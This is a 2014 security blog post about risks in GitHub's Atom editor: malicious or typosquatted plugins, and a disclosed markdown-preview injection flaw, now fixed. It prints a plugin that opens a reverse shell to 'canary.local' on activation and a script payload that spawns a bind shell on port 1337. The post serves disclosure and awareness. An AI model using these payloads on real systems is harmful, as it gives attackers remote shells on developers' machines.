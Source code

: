 #date: 2014-03-02 00:04:34 GMT
#slug: of-atom.io-and-security
#tags: security, atom.io, nodesecurity, node.js, apm, npm
#title: of atom.io and security
#type: text


Like many of you, I recently received an invite to atom.io, GitHub's new text editor.

Atom embraces everything that I love about node.js: easy creation, hackability, distribution, and installation of small modules. 

It also brings with it some of the same types of security concerns.

Shortly after downloading and playing with the app I posted this in [andbang](http://andbang.com) (our team collaboration tool):

"my first atom.io plugin, am I doing it right?"
```
var shells = require('node-shells');
module.exports.activate = function () {
    shells.reverseShell('canary.local', '1234');
}
```

Shortly after, my coworker Stephanie said to me: "You just can't help but hack all the things, can you?" 

No. No, I can't.

That's a simple plugin that when you install it it makes a connection back to my computer. 
Now, no sane developer would install that knowing what it does, but be honest: an attacker is not going to be that obvious and no matter how big our egos are, we all know we make stupid mistakes.

## Every strength comes with a weakness
Atom is designed for hackabililty, to run plugins and code written by you and the greater development community.

My concerns are the unintended side effects of having plain text and code executing in an environment that's a central tool for our day-to-day workflow.

Securing common developer endpoints is hard enough on its own. 

Now we have to verify the security of each module installed in our developers' text editor for seemingly benign things like syntax highlighting, coding efficiency or collaboration, or any number of awesome inventions the dev community dreams up.

## apm brings with it security concerns from npm
I did some research a while back on npm typos: packages a developer attempted to install, but couldn't because they got the name wrong.

Turns out we are measurably bad at punctuation when remembering package / module names.

The modules most commonly typed wrong were the ones with punctuation in them: "socketio" vs. "socket.io", "coffeescript" vs. "coffee-script", and so on.

This is going to happen with apm.

Malicious plugins will be created, they'll squat on commonly typo'd names, and it will be a problem.
It will be a pain in the ass to police as well. The same problem exists within npm, where we rely on the community to police it at the moment. 

It took the community a week to ask me to take down my fake "coffeescript" module that was blank. Had it replicated the functionality of a working module, I imagine it would still be up there today.

## This isn't your grandmothers DOM.
The next issue I see is that getting content injection within the atom.io editor means code execution with all the awesome power of node.js.

According to their [security page](https://github.com/rogerwang/node-webkit/wiki/Security), node-webkit has 2 frame types: Node frames and normal frames. It's the Node frame that gives us the extended power of node.

I was able to exploit this just hours after the release using the built-in markdown preview plugin (the one that's mentioned in the welcome text).

A month ago I published an [advisory for marked](https://nodesecurity.io/advisories/marked_multiple_content_injection_vulnerabilities), a popular module for parsing markdown. 

Turns out the markdown-preview plugin was using the rooster module that included a vulnerable version of marked. 

Small modules are nice, but everyone in the chain has to do their part to make sure things are secure and up to date.

I disclosed this vulnerability to GitHub and, as of atom 0.62.0, the included markdown-preview plugin appears to be fixed.

Here was the exploit for a quick bindshell:

    ```<script>net=require('net');cp=require('child_process');server=net.createServer(function(c){sh=cp.spawn('sh',['-i']);c.pipe(sh.stdin);sh.stdout.pipe(c);});server.listen(1337);</script>
    this is a test
    ```

I want to make it very clear that I love the editor and am in no way casting it aside just because of a few security concerns. (I don't tend to think of security as something that should hold back developers from building amazing and useful things, but rather, an essential component of that creativity.)

However, it does make me pause and think about the mounting concerns with securing developer endpoints that I'm not sure the answers are keeping up with.

## This is what the Node Security Project is about

atom.io reinvigorates our team's belief in why we started the Node Security Project.

Our only chance to rise above the bad guys is to approach leveling up the security of the entire community in a highly distributed way. It's the only way we'll be able to handle security in this new era of massive modularity and code reuse.

We have some big plans for Node Security Project for 2014 and we'd love to have your help as we begin to roll those out in the coming months.

Give us a follow on twitter for project updates. [@nodesecurity](https://twitter.com/nodesecurity)

